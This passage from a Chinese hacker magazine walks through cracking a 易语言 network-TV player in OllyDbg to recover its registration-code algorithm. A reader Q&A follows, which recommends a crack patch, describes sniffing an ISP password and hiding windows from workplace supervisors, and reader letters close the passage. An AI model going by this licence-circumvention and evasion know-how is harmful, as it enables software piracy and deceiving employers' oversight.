易语言作为一种简单易用而且可以使用中文来编写的编程语言，越来越广泛地受到编程爱好者的喜欢，所以使用易语言来编写的程序也越来越多了，很多黑客工具都开始采用易语言来编写了，比如下载者等。要破解易语言程序，首先得熟悉一下它，我这里只针对对破解比较有帮助的部分，其它的请读者朋友自行研究。易语言编译的时候，有两种方法，所以出现两种 OEP，而且是固定的，一个是使用独立编译生成后的 OEP 为 00403831，使用 PEID 检测后，发现显示为 Microsoft Visual C++ 6.0 [Overlay]，因为使用独立编译后，某些需要的文件会在编译时附加到文件尾部，所以可以看到 [Overlay]；另一个是使用编译生成后的 OEP 为 00401000，使用 PEID 检测后，可以发现显示为 E language，因为编译时没有把需要的文件附加到文件尾部，所以编译生成后的程序，在没有安装易语言的情况下，可能会因为缺少文件而运行不了。两种情况编译出来的程序都好像对程序进行了两层“壳”的保护，所以在破解的时候，我们无法在 OD 载入后直接使用“超级字符串”插件来搜索到有用的信息。好了，预备的知识就暂时说到这里，我想大家也一定等不及而跃跃欲试了，OK，大家一起来！

## 【揪出字符串】

实例是一个使用易语言编写的网络电视播放器，安装后在其目录下可以看到比如 .fnr 的文件，这个也可以判断程序为易语言编写，试注册一下，发现注册没有提示，我估计可能是一个重启验证的程序，不过别急，我们先把字符串揪出来，看看有什么发现没有，这里为大家介绍两种方法可以揪出被隐藏的字符串，下面 OD 登场：

```
00401000 E8 06000000 call esd.0040100B ;
载入后停在这里
00401005 50 push eax
00401006 E8 BB010000 call jmp.&KERNEL32.ExitProcess
```

小知识 入口点为00401000的，载入后会停在call处，而入口点为00403831的，载入后会停在：

```
00403831 A 55 push ebp
00403832 8BEC mov ebp,esp
有点类似于 C 语言
```

在入口点，就必须得进去，否则往下两行就会 OVER 了，进入后，无须 F8 一下下走，直接滚动鼠标找到第一个 retn 就可以了，找到后，往上数第四个 call 即可，然后直接来到该处，再继续跟进去（对于入口点为 00403831 的，则往上数第三个）。

跟进去后，再找到第一个 retn，往上数也是第四个（对于入口点为 00403831 的，则往上数第二个，下面的步骤，两个入口点同为一样）。

跟进去后可以看到：

```
1002998A 55 push ebp
1002998B 8BEC mov ebp,esp
1002998D 8B45 08 mov eax,dword ptr ss:[ebp+8]
10029990 50 push eax
10029991 B9 10DB0E10 mov ecx,krnln.100EDB10
10029996 E8 04F5FFFF call krnln.10028E9F 这里必须跟进去
1002999B 5D pop ebp
1002999C C2 0400 retn 4
```

只看到一个 call，所以这个 call 就是必须跟进去的地方，跟进去后一直 F8，直到出现如下代码：

```
00428F62 FC cld
00428F63 DBE3 finit
00428F65 E8 F6FFFFFF call esd.00428F60
00428F6A 68 618F4200 push esd.00428F61
00428F6F B8 03000000 mov eax,3
```

```
00428F74   E8 31000000   call esd.00428FAA
00428F79   83C4 04       add esp,4
```

这时就可以使用 OD 中的“超级字符串”插件来搜索有用的信息了。

是不是觉得有点郁闷呢？好像有点慢，而且还有点繁琐，可能是因为一步一步来的缘故吧，不过下面介绍第二个方法就比刚才的快几百倍了（太夸张了吧？），OD 重新载入：

```
00401000   E8 06000000   call esd.0040100B
载入后停在这里
00401005   50            push eax
00401006   E8 BB010000   call jmp.&KERNEL32.ExitProcess
```

这时候，不用和刚才一样去数第几个 call，直接打开“内存”，快捷键是 alt+M，可以看到：

内存映射，项目 22
地址=00403000
大小=00028000 (163840.)
宿主=esd      00400000
区段=.ecode
类型=Imag 01001002
访问=R
初始访问=RWE

找到这一行，F2 下断点后，运行，停在：

```
10028EBD   8B42 30       mov eax,dword ptr ds[edx+30]
; 停在这里
10028EC0   83E0 01       and eax,1
10028EC3   85C0          test eax,eax
```

这时一直 F8 下去，直到出现：

```
00428F62   FC            cld
00428F63   DBE3          finit
00428F65   E8 F6FFFFFF   call esd.00428F60
00428F6A   68 618F4200   push esd.00428F61
00428F6F   B8 03000000   mov eax,3
00428F74   E8 31000000   call esd.00428FAA
00428F79   83C4 04       add esp,4
```

这时就可以使用 OD 中的“超级字符串”插件来搜索有用的信息了。揪出被隐藏的字符串就介绍这两种方法。

## 【注册流程】

既然已经可以找到被隐藏的字符串了，那么下面来看看程序的注册流程，使用 OD 的“超级字符串”插件可以看到，如图 1 所示：

经过分析，发现图 1 中的第二处 code 就是关键点了，所以在该处下断点，运行后自动断在那里：

```
00421E32   68 04000080   push 80000004
00421E37   6A 00         push 0
00421E39   68 BD604000   push E时代网.004060BD
; Software\Microsoft\Internet Explorer\Main\esd\code
00421E3E   68 01030080   push 80000301
00421E43   6A 00         push 0
00421E45   68 03000000   push 3
00421E47   68 03000000   push 3
00421E4F   BB 98060000   mov ebx,698
```


图 1 使用“超级字符串”插件看到的结果

```
00421E54   E8 5D710000   call E时代网.00428FB6
00421E59   83C4 28       add esp,28
00421E5C   8945 EC       mov dword ptr ss:[ebp-14],eax
; eax 保存注册码
00421E5F   8B45 EC       mov eax,dword ptr ss:[ebp-14]
```

```
00421E82   6A 00         push 0
00421E84   68 8A604000   push E时代网.0040608A
; Software\Microsoft\Internet Explorer\Main\esd\user
00421E89   68 01030080   push 80000301
00421E8E   6A 00         push 0
00421E90   68 03000000   push 3
00421E95   68 03000000   push 3
00421E9A   BB 98060000   mov ebx,698
00421E9F   E8 12710000   call E时代网.00428FB6
00421EA4   83C4 28       add esp,28
00421EA7   8945 EC       mov dword ptr ss:[ebp-14],eax
; eax 保存用户名
```

```
00421ED5   83C4 10       add esp,10
00421ED8   8945 EC       mov dword ptr ss:[ebp-14],eax
; eax 保存机器码
00421EDB   68 04000080   push 80000004
```

很明显，程序将先读取注册码，再读取用户名，最后读取机器码。

```
00421F0A   85DB          test ebx,ebx
00421F0C   74 09         je short E时代网.00421F17
00421F0E   53            push ebx
00421F0F   E8 AE700000   call E时代网.00428FC2
00421F14   83C4 04       add esp,4
00421F17   DD45 E4       fld qword ptr ss:[ebp-1C]
; 机器码前五位
00421F1A   E8 67FDFFFF   call E时代网.00421C86
```

```
00421F45   83C4 10       add esp,10
00421F48   8945 F0       mov dword ptr ss:[ebp-10],eax
; eax 保存用户名长度
00421F4B   DB45 F4       fild dword ptr ss:[ebp-C]
00421F4E   DD5D E8       fstp qword ptr ss:[ebp-18]
; 机器码前五位
00421F51   DD45 E8       fld qword ptr ss:[ebp-18]
00421F54   DC0D F0604000 fmul qword ptr ds:[4060F0]
; 机器码前五位 1881696
00421F5A   DD5D E0       fstp qword ptr ss:[ebp-20]
```

```
00421F7C   83C4 10       add esp,10
00421F7F   8945 DC       mov dword ptr ss:[ebp-24],eax
; eax 保存运算结果
00421F82   68 04000080   push 80000004
```

```
00421FBB   DB45 F4       fild dword ptr ss:[ebp-C]
00421FBE   DD5D D0       fstp qword ptr ss:[ebp-30]
00421FC1   DD45 D0       fld qword ptr ss:[ebp-30]
00421FC4   DC0D F8604000 fmul qword ptr ds:[4060F8]
; 机器码前五位 49826865
00421FCA   DD5D C8       fstp qword ptr ss:[ebp-38]
00421FCD   DD45 C8       fld qword ptr ss:[ebp-38]
00421FD0   E8 B1FCFFFF   call E时代网.00421C86
```

```
00421FEC   83C4 10       add esp,10
00421FEF   8945 C4       mov dword ptr ss:[ebp-3C],eax
; eax 保存运算结果
00421FF2   68 04000080   push 80000004
```

```
0042202B   DB45 F4       fild dword ptr ss:[ebp-C]
; 机器码前五位
0042202E   DD5D B8       fstp qword ptr ss:[ebp-48]
00422031   DD45 B8       fld qword ptr ss:[ebp-48]
00422034   DC0D 00614000 fmul qword ptr ds:[406100]
机器码前五位 138913913
```

```
0042203A    DD5D B0         fstp qword ptr ss:[ebp-50]

0042205C    83C4 10         add esp,10
0042205F    8945 AC         mov dword ptr ss:[ebp-54],eax
; eax 保存运算结果

0042209B    DB45 F4         fild dword ptr ss:[ebp-C]
0042209E    DD5D A0         fstp qword ptr ss:[ebp-60]
;
004220A1    DD45 A0         fild qword ptr ss:[ebp-60]
004220A4    DC0D 08814000   fmul qword ptr ds:[408108]
; 机器码前五位 19800624
004220AA    DD5D 98         fstp qword ptr ss:[ebp-68]

004220CC    83C4 10         add esp,10
004220CF    8945 94         mov dword ptr ss:[ebp-6C],eax
; eax 保存运算结果
```

这里程序获得了用户名长度，再将这个值乘以一个固定值，得到运算结果，这说明注册码跟用户名还是有点关系的。

```
00422187    FFB5 78FFFFFF   push dword ptr ss:[ebp-88]
00421E8D    68 18614000     push E时代网00406118        ; -
00421E92    FF75 90         push dword ptr ss:[ebp-70]
00421E95    68 18614000     push E时代网00406118        ; -
00421E9A    FF75 A8         push dword ptr ss:[ebp-58]
00421E9D    68 18614000     push E时代网00406118        ; -
00421EA2    FF75 C0         push dword ptr ss:[ebp-40]
00421EA5    68 18614000     push E时代网00406118        ; -
00421EAA    FF75 D8         push dword ptr ss:[ebp-28]
00421EAD    B9 09000000     mov ecx,9
00421EB2    E8 61FBFFFF     call E时代网00421D18
```

使用几个连接符号“-”将得到的运算结果连接起来，形成最终的注册码。

这三次运算基本相同，都是取机器码前五位，再乘以三个不同的固定值，得到三个运算结果。

但这里还是有一点要说明一下的，这个结果是取十六进制后的最后8位的，下面的运算也相同。

这里其实就是浮点运算，用易语言写的注册算法，大多为浮点运算，基本一看就非常明了，总之，就是比别的语言编写的要容易看得多。

```
00422108    83C4 04         add esp,4
0042210B    DB45 F0         fild dword ptr ss:[ebp-10]
; 用户名长度
0042210E    DD5D 88         fstp qword ptr ss:[ebp-78]
00422111    DD45 88         fild qword ptr ss:[ebp-78]
00422114    DC0D 10614000   fmul qword ptr ds:[406110]         ;
用户名长度 20010301
0042211A    DD5D 80         fstp qword ptr ss:[ebp-80]

0042213C    83C4 10         add esp,10
0042213F    8985 7CFFFFFF   mov dword ptr ss:[ebp-84],eax
; eax 保存运算结果
00422145    68 04000080     push 80000004
```

## 【破解总结】

从上面的注册流程来看，注册算法是非常简单的，但是在之前的寻找字符串的时候，并不是所有人都懂，所以有时候会对我们这等小菜形成一定的难度，所以本文也详细介绍了手工和自动两种方法寻找被隐藏的字符串，但是我希望大家还是不要贪方便贪快，我认为掌握好手工方法的话，对以后的破解易语言的程序会更有帮助，为啥呢，因为如果编好的易语言程序加了壳的话，壳会对程序进行保护，而且还会对.ecode区段进行覆盖，从而完全看不到.ecode区段，当然，如果你经验丰富的话，对.ecode区段嗅也能嗅出来的：）

文章到这里也就结束了，希望大家能够亲身去体验一下而不只是看文章，对于破解来说，实践才能出真知的，如果你在学习过程中有问题或者建议的话，可以到《黑手》的官方论坛发表你的问题或见解。

**编辑点评：**破解易语言的文章相对较少，本文内容也只是初步，语言的不可能给我们破解时会造成或多或少的麻烦，但从文章中你应该了解到这类问题的解决思路，看文章要的是举一反三。


**Q：**我们这边的电信部门说，网络系统升级，需要安装“星空极速”才能拨号上网。于是机器就被安装了，不过我重新安装了系统之后就无法使用系统自带的拨号程序了，老是提示密码错误，我该怎么办？

**A：**最近全国的电信部门都在推荐使用“星空极速”，号称可以提速等，其实最重要的因素就是直接导致你不能共享上网。使用“星空极速”会改掉你的密码，给你的网络连接加一个PPPOE的密码协议转换。你在“星空极速”软件上使用的还是原来的密码，但是实际的PPPOE协议发出的密码，却使用的是一套转换过的密码。还有一些地区是修改其中的用户名，比如在前面或后面加字符，我们可以用下面的方法来解决：

- 一、右键“我的电脑”，选择“管理”，然后依次单击“系统工具”--“事件查看器”--“系统”，在右边找到一个来源为“RemoteAccess”的信息，双击打开便可以看见“描述”，这里会出现如“用户‘~8wh65678954用设备PPPoE5-0与VNet连接”之类的话语，其中“~8”即为添加的字符，“wh65678954”为原始的用户名。如果我们使用系统自带的拨号程序的话，把用户名修改成“~8wh65678954”，密码不变就可以登录了。

- 二、使用“sniffer pro 4.7.5”来嗅探密码，下载地址：http://dx.3800hk.com/Soft/xtjt/2255.html。
1. 下载安装“sniffer pro 4.7.5”以及汉化补丁，重新启动系统。
2. 不要运行“星空极速”连接网络，运行“sniffer pro”，点击“文件”--“选定设置”，选择你的网卡，确定。
3. 点击菜单“监视器”--“主机列表”，点击“本地”，再点击左边的“捕捉”，这时运行“星空极速”连接网络，连接上网后可以看到望远镜图标有个红点，这时候点击一下，这就停止捕捉了。
4. 点击最下面的“解码”，找到最上面的信息框每击一步序号，观察中间本机与服务器通讯记录，找到你的用户名和加密过的密码。
5. 使用刚才嗅探到的账号和密码在系统自带的拨号软件中填写就可以了。
注意：你的用户名不变，密码改为刚才嗅探的密码。

- 三、使用社会工程学，每天凌晨2点起来跟10000打电话说，连接的时候提示账号和密码错误，让他彻底的烦了，他会在电信的管理主机上把你的密码修改过来的。

**Q：**每次开机或者打开一个视频文件，音量中的波形就会自动变最小，怎么解决这个问题啊？

**A：**这个问题不能过于武断地给你回答，因为原因可能是多方面的，比如声卡驱动、声卡等，我个人觉得可能跟某些播放器有关。比如“RealPlay”，它的音量控制就是直接控制波形（wave）的。打开播放器之后，把波形调节一下然后再重启一下试试。要是你机器上安装了“暴风影音”的话，建议你安装最新的版本，因为在老版本中有这个 BUG 出现。

Q: 开始程序菜单，无法点击右键，在 C:\Documents and Settings\用户名\「开始」菜单\程序中使用可以，是病毒还是什么原因啊？
A: 这个没有病毒的，只是设置错误而已。在开始按钮上点“右键”，选择“属性”－“自定义”，在弹出的对话框下面有很多复选框，选择“启用拖放”后，再点确定就可以了。现在再去试试看是不是恢复了？

Q: Ctrl+F是IE的搜索页面功能，现在按没反应了。Ctrl+A、Ctrl+C、Ctrl+V，以上都可以正常使用，应该不会是键盘的问题，“F”这个按键也没坏。我直接在IE里，点“编辑”－“查找当前页面”，却又是能用的，我该怎么解决啊？
A: 在网页里面的搜索大概有这样几种问题存在：

- 一、页面的限制。某些设计者由于一些原因，故意使用限制的代码把“Ctrl+F”在网页里面屏蔽了，所以你不能用，解决的办法其实很简单，把IE的安全级别设置到最高，然后重新刷新页面就可以了。
- 二、IE的问题。在Windows资源浏览器里用一下试试看，能不能打开搜索栏。如果可以，说明你IE有问题，使用一些IE修复软件即可。
- 三、系统的问题。有可能你删除系统调用查找的一些关键文件，导致你不能使用了，建议你使用sfc命令修复系统文件，点“开始”找到“运行”，输入“sfc /scannow”就可以修复了，记得放上你的光盘。
- 四、软件冲突。这个不好判断，我就有一次安装内存扫描软件，它的热键是“Ctrl+F”，导致我每次使用“Ctrl+F”的时候便在清理内存。所以要是软件冲突的话，建议你卸载一些有问题的软件。

Q: 最近安装了一个系统，不过发现收藏夹的路径是在D盘的收藏夹，而不是在默认的C盘，怎么恢复啊？
A: 收藏夹的路径被修改了，可以通过修改注册表和直接在系统里面修改，具体如下：

- 一、点击“开始”，选择“运行”，输入“regedit”打开注册表到“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders”，找出“Favorites”键值，修改成需要的值就可以。要是修改成默认的话，可以留空即可。
- 二、单击要选定被修改的收藏夹，在左边的“文件夹和文件夹任务”的选项里有一个“移动这个文件夹”的选项，点击后就可以随自己的意思移动路径了。

Q: 在XP下装Win2000，提示说版本太低不能装！然后在DOS下也装不了，俺下载的是Win2000 pro sp4，在DOS下俺用了，cd i386、winnt，和装XP一样的命令，但是就是装不了，各位帮帮忙啊！！
A: 安装操作系统是有一定的顺序的，必须从低版本的往高版本的装，要是你先装XP的再去装2000的话就会报错，我建议你先把系统文件刻录成光盘，然后格式化掉XP的系统分区再装2000的系统。
在dos下面安装我建议你先格式化XP的系统分区，然后用DOS进入到win2000安装目录下运行winnt.exe这个文件安装。

Q: 本人小菜，不知道什么是ping? 另外，我家“瑞星防火墙”总是提示“有xxx.xxx.xxx.xxx ping入”什么的，不安全吗？
A: 首先我们给你解释一下ping的意思：Ping是个使用频率极高的实用程序，用于确定本地主机是否能与另一台主机交换（发送与接收）数据包。根据返回的信息，你就可以推断TCP/IP参数是否设置得正确以及运行是否正常。需要注意的是：成功地与另一台主机进行一次或两次数据包交换并不表示TCP/IP配置就是正确的，你必须执行大量的本地主机与远程主机的数据包交换，才能确信TCP/IP的正确性。

简单地说，Ping就是一个测试程序，如果Ping运行正确，你大体上就可以排除网络访问层、网卡、MODEM的输入输出线路、电缆和路由器等存在的故障，从而减小了问题的范围。

Ping命令的常用参数选项：
- Ping IP -t 连续对IP地址执行Ping命令，直到被用户以Ctrl+C中断。
- Ping IP -l 2000 指定Ping命令中的数据长度为2000字节，而不是缺省的32字节。
- Ping IP -n 执行特定次数的Ping命令。

一般防火墙里面都是设置的，在里面选择，不允许其他用户ping自己的机器就可以避免别人来扫描你的机器了。至于ping的安全的话，我个人建议不要允许别人ping。

Q: 我在网上邻居拷贝了个文件到E盘，可E盘显示空间太小。我删了些文件后发现，空间不但没变大，反而更小了，这是怎么回事啊？
A: 一、首先清空一下回收站，因为文件要是删除了的话，还会在这个分区的回收站里面，清空一下回收站才是彻底地删除。

- 二、看一下分区还有其他的文件不？打开“我的电脑”，依次打开“工具”－“文件夹选项”－“查看”，选择其中的“显示所有文件和文件夹”，看一下有没有隐藏的东西。要是有就删除，要是没有就可以杀一下毒，看一看是否有病毒文件等。
- 三、重启一下系统，有时候由于系统缓存的原因会出现计算错误。

## Q: 如何删除office2007使用记录?
A: 一、启动Word，在“打开”或者“另存为”对话框中的位置栏中单击“历史”，然后用菜单栏上的“工具”－“清除历史记录”，就可以将“历史”中的痕迹抹去了。但是你要注意的是，所有的Office应用程序中，“打开”和“另存为”对话框是共享的，所以你清空的其实是所有Office应用程序的历史记录。

- 二、打开“C:\Documents and Settings\用户名\Application Data\Microsoft\Office\Recent”文件夹，然后把里面清空，最近使用的文档也就没有了。
- 三、如果觉得这样太麻烦，或者想以后都不显示最近使用的文档的话，打开word的设置选项，然后在“高级”里面把“显示最近使用文档”的数目设置成“0”。

Q: 前段时间在百度的帖上看到，把&#27004&#20027&#26159&#25105&#20799&#23376 的空格去掉再发表，怎么会变成“楼主是我儿子”，成中文了？
A: 首先需要知道你所看到的数字就是这些字符的“Unicode”编码，HTML里在&#后面加Unicode代码，就会把Unicode解析成文字，所以你输入这些代码之后就会显示出文字了。
下面是两种解析的方法：

一、使用网页代码：

```javascript
<script language=javascript>
function getUniCodes(strDes){
 var res = "";
 for(var i = 0; i < strDes.length; i++){
  res += "&#" + strDes.charCodeAt(i) + " ";
 }
 return res;
}
</script>
```

```javascript
alert(getUniCodes("黑客手册"));
</script>
```

把以上代码保存成“*.htm”的后缀（如“1.htm”），然后执行就会显示出“黑客手册”的 Unicode 编码为“&#40657 &#23458 &#25163 &#20876”。我们按键盘的“Ctrl+C”便可以复制出来。

二、使用软件查看：既然使用网页都能搞定，那么肯定会有软件出现，这里恰好有一款可以查看汉字编码的软件：汉字内码查看器（下载地址：http://www.skycn.com/soft/29038.html），它能把汉字、区位码、Unicode 码、GBK 码互转，可以说是非常方便。

Q: 我的电脑在使用过一段时间后，总是提示虚拟内存太低，需要怎么设置啊？
A: 如果你的系统虚拟内存太低，可以鼠标右击“我的电脑”，依次选择“属性”——“高级”——“性能下设置”——“高级”——“打开虚拟内存设置”，可以重新设置最大值和最小值，按物理内存的 1.5-2 倍来添加数值，也可以更改虚拟内存的存放位置，可以设置放到其他容量较大的硬盘分区，让系统虚拟内存有充分的空间，让系统运行得更快。

虚拟内存太低，有三种解决办法：

- 一、自定义的虚拟内存的容量（系统默认是自动）太小，可以重新划分大小。
- 二、系统所在的盘（一般是 C 盘）空余的容量太小而运行的程序却很大，并且虚拟内存通常被默认创建在系统盘目录下，我们可以删除一些不用的程序，并把有用文件移动到其他盘中，并清理“回收站”，使系统盘保持 1GB 以上的空间，或者将虚拟内存定义到其他空余空间多的盘符下。
- 三、系统盘空余的容量并不小，但因为经常安装、下载软件，并反复删除造成文件碎片太多，也是容易造成虚拟内存不足的原因之一，虚拟内存需要一片连续的空间，尽管磁盘空余容量大，但没有连续的空间，也无法建立虚拟内存区。可以用磁盘工具整理碎片。

Q: 最近安装了一个英文版的操作系统，不过我打开中文网站的时候都显示的是乱码，帮助我一下！
A: 显示乱码是没有安装好中文的语言包，具体步骤如下：

- 第一步：Start->Control Panel->Regional and Language Options（开始-控制面板-区域和语言选项），点击 Languages（语言）页，选中两个复选框的第二个（Instal files for East Asian languages）（安装亚洲语言），不要选第一个。然后点击 OK 按钮，系统会弹出对话框问你语言文件在哪，Browse（浏览）选择到系统光盘的“\i386\lang 目录”，然后选中任何一个文件，点击 Open 按钮关闭对话框。接着系统开始安装语言包，安装完成之后问你是否要重启，选择否！
- 第二步：Start->Control Panel->Regional and Language Options（开始-控制面板-区域和语言选项）。点击 Advanced（高级）页，在下拉框里边选择 CHINESE(PRC)，点击 OK 按钮，然后会弹出对话框问你一个问题，是否使用现有文件，选择“yes”，然后又会问你是否要重启 Windows，选择“yes”。重新启动完成之后，就可以读写中文字符，可以安装任何中文输入法了。

Q: 我使用一键 Ghost 的时候，由于断电，导致在我的 F 盘里面多出了一个 c_pan.gho 的文件，我看它的大小是 0，不过删除的时候却提示“文件或目录损坏且无法读取”，我该怎么解决？
A: 出现这个情况主要是因为，文件正在操作中而因为一些其他的因素导致文件创建不完整。所以这里告诉大家一个命令，也就是 chkdsk 命令。在“运行”里输入“cmd”，然后输入“cd”命令进入到该盘和文件夹，最后输入“chkdsk /f”，就会有提示“chkdsk 正在校验文件”，几秒钟之后就会提示某文件索引成功。

Q: 怎么制作 USB 启动盘？可以在 dos 下识别 NTFS 的！
A: 首先我们需要一个软件，USBoot（下载地址：http://www.newhua.com/soft/34696.htm）。

- 一、打开 USBoot 之后选择好 U 盘，然后点击“开始”，按照提示完成即可(移动硬盘选择 USB-HDD、普通移动 U 盘选择 USB-ZIP，这个也可以根据主板支持的类型进行选择)。
- 二、进入 BIOS，将 USB-ZIP 或者 USB-HDD 设置为首启，选择的模式以制作 U 盘启动盘的模式为准。
- 三、保存 BIOS 设置，插好 U 盘，重启计算机就从 U 盘启动了。

Q: 如何去除任务栏中的某项任务显示图标？如将瑞星的防火墙图标在任务栏里消除！
A: 隐藏图标的话这里有两种方式来解决，一就是直接设置，二就是使用软件，具体如下：

- 一、把鼠标移动到“任务栏”，然后右键选择出现的“属性”-“隐藏不活动的图标”，点击右边的“自定义”，在出现的对话框之中就可以修改了。把“行为”这里修改成你想要的状态，如“总是隐藏”。
- 二、使用软件“PS Tray Factory”（下载地址：http://dx.3800hk.com/Soft/zhly/16289.html）。这个软件是带有注册机的，先运行一下文件夹里面的“注册补丁”，这样就是注册版的了。然后打开软件的主程序，可以看见当前的进程，把需要隐藏的勾选就可以隐藏了。至于一些快捷键和语言的设置我就不多做介绍了。语言可以在“options（选项）”里面解决，整个软件虽然是英文，不过很简单的。

Q: IE7.0 在哪里能设置成像遨游一样，浏览论坛帖子的时候能在新窗口打开，多页面浏览啊？
A: 这里主要就是需要设置一下 IE7 的“选项卡”，当然也有绝招的。

- 一、打开 IE7，然后在界面上找到“工具”，点击之后选择“Internet 选项”，再找到靠下面点的“选项卡”右边的“设置”。打开设置之后我们把“遇到弹出窗口时”这里设置成第一项，也就是“由 Internet Explorer 决定如何打开弹出窗口”。
- 二、还有一种方法需要鼠标的支持，当你需要在新的选项卡上打开的时候，用鼠标的中键（滚轮）点击一下即可。

Q: 最近公司不允许我们上网了，不过没有在网络上来限制，只是用人来监督一下，要是我们能隐蔽一些正在开启的界面，不就能够逃避了吗？所以希望能够推荐一个简单的隐蔽软件给我。
A: 隐藏界面的软件很多的，我在这里推荐一个绿色免费的给你，“Hide Window Plus”。打开软件，然后点击上面的“添加”，这里添加便是你需要隐藏的软件。我们可以选择这些正在运行的软件，也可以点击“浏览”添加其他经常运行的软件。然后点击“确认”，再点击一下“应用”。这时，我们只需按键盘的快捷键“win+Esc”就可以隐藏你刚才选择的软件了。当我们再次按键盘的“win+Esc”就可以显示出隐藏的软件，试试看，是不是很简单？

Q: 昨天把机箱打开了一下，对里面的东西做了一下清洁，不过后来开机后滚动条每次都需要跑很久，不知道怎么样才能解决？
A: 关于滚动条的问题是可以解决的，有如下几种办法：

- 一、修改注册表，点击“开始”，在“运行”里输入“regedit”，找到“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters”，把“EnablePrefetcher”的默认值“3”改为“1”。
- 二、修改 IDE 接口设置，右键打开“我的电脑”的“属性”——“硬件”——“硬件管理器”——“IDE 控制器”——“主要（次要）IDE 通道”——“高级”，把“自动检测的端口”设置为“无”。
- 三、检查硬件连接，打开机箱查看硬盘的 IDE 接口是否连接正确，不要把光驱的连接在硬盘上，虽然都可以用，但是开机的时候会检测硬盘，所以会导致时间延长。

Q: 刚安装了系统重新分了区，把E盘分了35G的容量，不过在打开磁盘的时候提示需要格式化，不管我选 NTFS 还是 FAT32 来格式化都提示“Windows 无法完成格式化”，请问我该如何解决啊？
A: 出现这种问题是因为分区之后没有使用一些工具来格式化，在进入 Windows 系统后格式化的分区大于 30G 将会出现无法格式化的情况。解决的办法如下：

- 一、使用 format 命令来搞定，点击“开始”，在“运行”里输入“cmd”，然后根据需要格式化的磁盘格式来选择下面的命令，ntfs 格式：“format e:/fs:ntfs/q”；fat32 格式：“format e:/fs:fat32/q”。
- 二、可以使用一些强大的分区软件来解决，比如“pqmagic（分区魔术师）”。打开分区软件之后选择没有格式化的分区，然后对其正确的分区即可。

微软官方的一篇相关文章：“如何将磁盘从 FAT 格式转换为 NTFS 格式”，地址：http://www.microsoft.com/china/windowsxp/pro/using/itpro/managing/convertfat.asp

# 第一次

城市 / 广东省韶关市
论坛ID / tangjunchong
邮件 / tangjunchong@126.com
→建议和意见：这是我第一次购买，当看到该书时，兴奋呀！这就是我想购买的黑客图书的类型，从菜鸟进化成大虾。于是我决定支持你们，也为我自己的兴趣买定了，以后我也会买、买、买……

城市 / 江苏
论坛ID / 无
邮件 / wang589386@sina.com
→建议和意见：我是一名刚刚开始接触《黑客手册》的学员，我在杂志里看到菜鸟恶补就是教我这样不懂的人，我看到内容里有很多的英文，我看不懂，好郁闷哦！问一下：是不是每个黑客的英文都是非常好的呢？

E文好得烂的文编：英语嘛~主要是用来听摇滚的！偶尔看看国外技术资料还是很有用！不如用网络翻译吧，我给你介绍一个好的翻译软件，保证价格公“盗”，童叟无“婆” ……

城市 / 湖南省娄底市
论坛ID / manson
邮件 / onelovelyc@sina.com
→建议和意见：从第一眼看到它（《黑客手册》），我就知道我会忠诚于它（绝对不夸张）。可惜的是，上天让我在07年2月的时候才遇到它。第一眼，我就爱上了她（封面上的“春姑娘”），兄弟，别用那种眼神看我，你也不一定比我好到哪儿去。

城市 / 山东省淄博市
论坛ID / 无
邮件 / chen29369@163.com
→建议和意见：我是第一次购买你们的杂志，也是刚刚接触“黑技”，所以很多内容还是看不懂。我希望《黑手》能增加一些我这种档次能看懂的内容（虽然我接触电脑已经有8年了，但是我……

大部分电脑时间只是与我的朋友玩一玩游戏，并没有深入很多）。

热泪盈眶的菜编：感谢各位第一次购买《黑手》的所有读者，欢迎大家加入并进化成“黑丝”！我们一直以来都是鼓励着菜鸟向大虾们学习，大家互相讨论交流。不同栏目都有来自大虾和菜鸟们的稿件，也欢迎新认识《黑手》的朋友们把自己在学习中积累的技巧和经验写下来，踊跃投稿！

## 菜鸟 · 新书

城市 / 安徽合肥
论坛ID / 豚豚飞啊飞
邮件 / wtrd1234@sina.com
→对某篇文章的读后感：
文章名称：《菜鸟远程包含漏洞——实战篇》
读后感：看的时候边看边自叹不如，连这样的人都自称菜鸟，那我算什么？想了若干天，终于将自己摆到了正确的位置上——肉鸡！一只不愿等待宰杀的肉鸡，一只憋了一肚子气的肉鸡，一只不断向上跳跃，以求天空保护的肉鸡，当我们跳得越来越高，我们将不再是肉鸡而是——肉鸟。即使这样，我们也要做一只只肉质滑嫩，味道鲜美，活蹦乱跳，你想抓也抓不到，想吃也吃不着的肉鸟，这就是我们的“肉鸟宣言”。

每期必来亮相的菜鸟编辑：鸟和鸡的分别，是因为鸟抛掉了鸡所有的东西，才会越飞越高……当不需要羽毛来掩饰自己是菜鸟时，你就成肉鸟了！

城市 / 石家庄
论坛ID / 无
邮件 / 610896925@163.com
→建议和意见：
我中考完暑假开始接触黑客技术，现在已经发布过两个教程，我觉得编程和免杀比较困难，希望《黑手》发些编程基础照顾下菜鸟；还有有关 ASP 方面的基础知识。

城市 / 四川省泸州市
论坛ID / hiv002
邮件 / hiv002@163.com
→对某篇文章的读后感：
文章名称：《简简单单杀进中国电信》
读后感：看了这篇文章以后，我终于明白，原来有些人如此高傲，大公司也一样有漏洞，加上我实际与电信交涉，实在是他们狐假虎威。不过让我欣慰的是，终于明白了网络所谓的漏洞，也终于弄清楚了什么是注释。感谢《黑客手册》全体人员为我们这些在校学生所做出的努力！
→建议和意见：
我看了“快码加编”这个栏目很是感动呀！对我一些和我## 用户反馈与建议

一样的人来说就遗憾了呀，我们只学习过 VF、C，而没有亲自动手涉及你们在刊物上登的 VB 等等程序设计语言，估计下学期要学 ASP 编程，请贵刊多刊登一些基础的、不要太难的、实用的，可以吗？

黑道消息特邀编辑：即将发行的新书《精通脚本黑客》就是对编程代码的循序渐进哦！包括 ASP、JSP、PHP 等，多看本书每期的广告等待消息哦！

- 城市 / 辽宁省鞍山市
- 论坛 ID / $大可 $Dark
- 邮件 / gameboyqqm@yahoo.com.cn

## →建议和意见:

我是一名老菜鸟了，看了多期《黑手》，可还是停留在“菜鸟”阶段，希望贵刊多多照顾我们这些“上吧族”（家中无电脑，只好上网吧），教一些在网吧就可以实施的黑手行动（也考验一下贵刊工作人员的水平），看看能不能教给众菜鸟们一招半式，谢谢！

再也不到网吧上网的编辑：惭愧啊，我一进网吧就手心发汗，两腿发软……没有办法，谁叫偶太有才了啊！许多读者一直进行着菜鸟行动，但是不要光按照别人的步骤去进行，大家一定要摸索经验、认识理论、举一反三、三思而行，那才是相当地……有收获啊！当然，每期的“泡泡吧”栏目是大家挖掘宝藏的地方！

- 城市 / 河北石家庄
